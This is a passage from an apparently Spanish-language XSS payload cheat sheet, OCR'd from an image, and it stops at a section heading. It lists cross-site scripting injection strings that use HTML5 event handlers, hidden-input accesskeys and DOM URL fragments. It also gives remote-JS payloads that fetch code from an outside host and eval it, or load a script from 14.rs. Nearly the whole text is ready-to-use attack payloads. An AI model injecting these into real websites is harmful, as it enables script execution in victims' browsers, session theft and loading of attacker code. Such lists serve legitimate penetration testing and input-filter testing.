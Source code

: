 ```
<div onpointerleave="alert(45)">MOVE HERE</div>
<div onpointermove="alert(45)">MOVE HERE</div>
<div onpointerout="alert(45)">MOVE HERE</div>
<div onpointerup="alert(45)">MOVE HERE</div>
```

### XSS usando tags HTML5

```
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>
<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<body ontouchstart=alert(1)> // Triggers when a finger touch the screen
<body ontouchend=alert(1)>   // Triggers when a finger is removed from touch screen
<body ontouchmove=alert(1)>  // When a finger is dragged across the screen.
```

### XSS usando un remote JS

```
<svg/onload='fetch("//host/a").then(r=>r.text().then(t=>eval(t)))'>
<script src=14.rs>

// you can also specify an arbitrary payload with 14.rs/#payload
e.g: 14.rs/#alert(document.domain)
```

### XSS en inputs ocultos

```
<input type="hidden" accesskey="X" onclick="alert(1)">
Use CTRL+SHIFT+X to trigger the onclick event
```

###  XSS basado en DOM

Colocar esto en la url.

```
#"><img src=/ onerror=alert(2)>
```

### XSSen contexto JS
